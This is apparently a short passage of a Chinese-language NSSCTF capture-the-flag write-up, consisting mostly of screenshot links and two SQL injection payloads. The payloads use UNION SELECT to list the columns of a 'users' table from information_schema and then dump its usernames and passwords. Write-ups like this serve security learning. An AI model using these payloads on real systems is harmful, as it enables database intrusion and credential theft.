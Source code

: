 ![image-20250807092903864](./NSSCTF-4.assets/image-20250807092903864.png)



**爆列**

```
1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
```

![image-20250807092952505](./NSSCTF-4.assets/image-20250807092952505.png)

**爆字段**

```
-1)))))) union select username,password from users--+
```
